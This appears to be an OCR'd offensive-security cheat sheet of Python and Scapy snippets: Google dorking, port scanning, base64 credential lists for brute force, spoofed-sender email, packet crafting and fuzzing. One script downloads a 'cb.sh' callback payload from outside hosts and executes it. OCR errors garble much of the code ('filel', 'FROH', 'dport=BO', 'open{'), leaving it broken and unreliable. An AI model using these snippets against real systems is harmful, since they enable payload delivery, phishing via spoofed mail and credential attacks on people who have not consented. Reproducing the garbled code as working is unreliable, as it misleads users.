 # Python
### Google dork search
```python
# python3 -m pip install googlesearch-python

from googlesearch import search

def save_links_to_file(query, num_results, file_path):
    with open(file_path, 'w', encoding='utf-8') as file:
        for link in search(query, num_results):
            file.write(link + '\n')


query = "YOUR GOOGLE DORK"
num_results = 1000
output_file_path = "google_search_results.txt"


save_links_to_file(query, num_results, output_file_path)

print(f"Links saved to {output_file_path}")
```

### Port Scanner
```python
import socket as sk
for port in range (1, 1024):
    try:
        s=sk. socket ( sk .AF_INET, sk. SOCK_STREAM)
        s.settimeout(1000)
        s. connect ( (' 127. 0. 0. 1 ' , port) )
        print '%d:OPEN' % (port)
        s.close
    except: continue 
```


### Generating base64 words
```python
#!/usr/bin/pjthon
import base64
filel=open("pwd.lst","r")
file2=open("b64pwds.lst","w")
for line in file1:
    clear= "administrator:"+ str.strip(line)
    new= base64.encodestring(clear)
    file2.write(new)
```

### Convert Windows registry from hex to ascii
```python
import binascii, sys, string
dataFormatHex = binascii.a2b_hex(sys.argv[1])
output = ""
for char in dataFormatEex:
    if char in string.printable: output += char
    else: output += "."
print ''\n'' + output
```


### Reading all folder files and searching with regex
```python
import glob, re
for msg in glob.glob('/tmp/.txt'):
    filer = open ((msg), 'r')
    data = fi1er.read()
    message= re.findall(r' message (.'?) /message ', data, re.DOTALL)
    print "File %s contains %s" % (str(msg) ,message)
    fi1er.c1ose()
```

### Building a web server encrypted with ssl
```python
# Create SSL cert (follow prompts for customization)
  openssl req -new -x509 -keyout cert.pem -out cert.pern -days 365 -nodes

#Create httpserver.pj
  import BaseHTTPServer,SimpleHTTPServer,ssl

cert ="cert.pem"
httpd = BaseHTTPServer.HTTPServer( ('192.168.1.10' ,443),
Simp1eHTTPServer.SimpleHTTPRequestHandler)
httpd.socket = ssl.wrap socket(httpd.socket,certflle=cert,server side=True)
httpd.serve_forever()
```

### Web Server on port 8888
```python
python3 -m  http.server 8888
```


### Send email (sendmail must be installed)
```python
#!/usr/bin/python
import smtplib, string
import os, time

os.system("/etc/init.d/sendmail start")
time.sleep(4)

    HOST = "localhost"
    SUBJECT = "Email from spoofed sender"
    TO = "target@you.com"
    FROM= "spoof@spoof.com"
    TEXT = "Message Body"
    BODY = string.join( (
            "From: %s" % FROH,
            "To: %s" % TO,
            "Subject: %s" % SUBJECT ,
            "",
            TEXT
            ) , "\r\n")
server = smtplib.SMTP(HOST)
server.sendmail(FROM, [TO], BODY)
server. quit ()
time.sleep(4)
os.system("/etc/init.d/sendmail stop")
```


### Get the file from http and run it
```python
#!/usr/bin/python
import urllib2, os

urls = [ "1 1.1.1.1","2.2.2.2"]
port = "80"
payload = "cb.sh"

for url in urls:
    u = "http://%s:%s/%s" % (url, port, payload)
    try:
        r = urllib2.urlopen(u)
        wfile = open{"/tmp/cb.sh", "wb")
        wfile.write(r.read())
        wfile. close ()
        break
    except: continue

if os.path.exists("/tmp/cb.sh"):
    os.system("chmod 700 /tmp/cb.sh")
    os. system ( "/tmp/cb. sh")
```


## Scapy
When you craft TCP packets with Scapy, the underlying OS will not recognize the initial SYN packet and will reply with a RST packet. To mitigate this you need to set the following Iptables rule: 

`iptables -A OUTPUT -p tcp –tcp-flags RST RST -j DROP`

```text
from scapy.all import * --> Load all scapy libraries
ls () --> List of all protocols
lsc () --> List of all functions
conf --> Display and settings
IP(src=RandiP()) --> Generate random destination IP
Ether(src=RandMAC() I	--> Generate random destination MAC
ip=IP(src=”1.1.1.1”,dst=”2.2.2.2”)	--> Change the ip parameter
tcp=TCP(dport=”443”)	--> Change the tcp parameter
data= “TCP data”	--> Specify the data part
packet=ip/tcp/data	--> Create ip and tcp packet
packet.show()	--> Show package settings
send(packet,count=1)	--> Send 1 packet to layer 3
sendp(packet,count=2)	--> Send 2 packets to layer 3
sendpfast(packet)	--> Send faster with tcpreply
sr(packet)	--> Send 1 package and get the result
sr1(packet)	--> Post only one reply
for i in range(0,1000): send (packet·)	--> Sending a set a thousand times
sniff(count=100,iface=eth0)	--> Listening for hundred packets on eth0
```


### Send icmp message on ipv6
```python
sr ( IPv6 ( src=" ipv6 ", dst="ipv6")/ ICMP ())
```

### udp packet and payload
```python
ip=IP(src="ip", dst="ip")
u=UDP(dport=1234, sport=5678)
pay = "my UDP packet"
packet=ip/u/pay
packet.show( )
wrpcap ("out.pcap",packet) :write to pcap
send(packet)
```

### Ntp fuzzer operation
```python
packet=IP(src="ip" ,dst=" ip ")/UDP(dport=l23)/fuzz(NTP(version=4,mode=4))
```

### Send http message
```python
from scapy.all import *
# Add iptables rule to block attack box from sending RSTs
# Create web.txt with entire GET/POST packet data
fileweb = open("web.txt",'r')
data = fileweb.read()
ip = IP(dst="ip")
SYN=ip/TCP(rport=RandNum(6000,7000),dport=BO,flags="S",seq=4)
SYNACK = sr1(SYN)
ACK=ip/TCP(sport=SYNACK.dport,dport=BO,flags="A",seq=SYNACK.ack,ack=SYNACK.
seq+l)/data
reply,error = sr(ACK)
print reply.show()
```
